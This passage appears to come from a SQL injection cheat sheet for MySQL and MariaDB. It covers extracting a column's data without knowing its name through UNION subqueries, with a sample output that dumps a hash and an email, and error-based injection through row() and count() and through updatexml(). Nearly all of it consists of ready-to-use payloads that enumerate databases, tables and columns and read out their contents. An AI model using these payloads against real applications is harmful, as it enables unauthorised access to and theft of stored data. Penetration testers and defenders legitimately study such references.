 ### Extract data without columns name 

Extracting data from the 4th column without knowing its name.

```sql
select `4` from (select 1,2,3,4,5,6 union select * from users)dbname;
```

Injection example inside the query `select author_id,title from posts where author_id=[INJECT_HERE]`

```sql
MariaDB [dummydb]> select author_id,title from posts where author_id=-1 union select 1,(select concat(`3`,0x3a,`4`) from (select 1,2,3,4,5,6 union select * from users)a limit 1,1);
+-----------+-----------------------------------------------------------------+
| author_id | title                                                           |
+-----------+-----------------------------------------------------------------+
|         1 | a45d4e080fc185dfa223aea3d0c371b6cc180a37:veronica80@example.org |
+-----------+-----------------------------------------------------------------+
```


## MYSQL Error Based

### MYSQL Error Based - Basic

Works with `MySQL >= 4.1`

```sql
(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))
'+(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))+'
```


### MYSQL Error Based - UpdateXML function

```sql
AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)-
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)),null)--
```

Shorter to read:

```sql
' and updatexml(null,concat(0x0a,version()),null)-- -
' and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() LIMIT 0,1)),null)-- -
```
